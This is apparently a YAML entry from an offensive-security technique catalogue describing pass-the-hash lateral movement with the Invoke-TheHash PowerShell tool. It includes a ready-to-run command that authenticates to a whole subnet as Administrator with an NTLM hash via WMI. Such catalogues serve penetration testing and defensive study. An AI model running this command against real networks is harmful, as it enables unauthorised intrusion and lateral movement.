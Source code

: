 ```yaml
---
title: |
  Pass the hash 
description: |
  Invoke-TheHash contains PowerShell functions for performing pass the hash WMI and SMB tasks. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privilege is not required client-side.

  Command Reference:

  	-Type: WMIExec, SMBExec

command: |
  Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administrator -Hash F6F38B793DB6A94BA04A52F1D3EE92F0
items:
  - Hash
services:
  - SMB
  - WMI
OS:
  - Windows
attack_types:
  - Lateral Movement
references:
  - https://github.com/Kevin-Robertson/Invoke-TheHash
---
```

